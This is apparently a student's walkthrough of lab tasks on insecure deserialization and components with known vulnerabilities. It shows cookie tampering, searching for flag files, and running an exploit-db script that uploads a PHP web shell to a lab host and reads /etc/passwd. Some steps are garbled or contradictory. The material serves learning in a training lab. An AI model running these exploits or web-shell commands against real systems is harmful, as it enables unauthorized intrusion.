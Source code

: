 
create an account first

and find the cookie page

You will see here that there are cookies are both plaintext encoded and base64 encoded. The first flag will be found in one of these cookies.

Notice here that you have a cookie named "userType". You are currently a user, as confirmed by your information on the "myprofile" page. change"userType" value then find second flag.

### Task 26 [Severity 8] Insecure Deserialization - Code Execution

1. First, change the value of the userType cookie from "admin" to "user" and return to [http://MACHINE_IP/myprofile](http://machine_ip/myprofile) 

2. Then, left-click on the URL in "Exhange your vim" found in the screenshot below.
3.  Once you have done this, left-click on the URL in "Provide your feedback!"
4. Follow the prompts to get the target machine

```
$ find / -name "flag.txt" 2>/dev/null
/home/cmnatic/flag.txt
$ cat /home/cmnatic/flag.txt
```

### Task 27 [Severity 9] Components With Known Vulnerabilities - Intro

Occasionally, you may find that the company/entity that you're pen-testing is using a program that already has a well documented vulnerability.

For example, let's say that a company hasn't updated their version of WordPress for a few years, and using a tool such as wpscan, you find that it's version 4.6. Some quick research will reveal that WordPress 4.6 is vulnerable to an unauthenticated remote code execution(RCE) exploit, and even better you can find an exploit already made on [exploit-db](https://www.exploit-db.com/exploits/41962).

### Task 28 [Severity 9] Components With Known Vulnerabilities - Exploit



### Task 29 [Severity 9] Components With Known Vulnerabilities - Lab

exploits:https://www.exploit-db.com/exploits/47887

##### How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)

```
$ python3 47887.py  http://10.10.231.67/ 
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.231.67/bootstrap/img/TfcT1j7Vfv.php
> Example command usage: http://10.10.231.67/bootstrap/img/TfcT1j7Vfv.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ whoami
www-data

RCE $ wc -c /etc/passwd
** /etc/passwd

RCE $ 

```

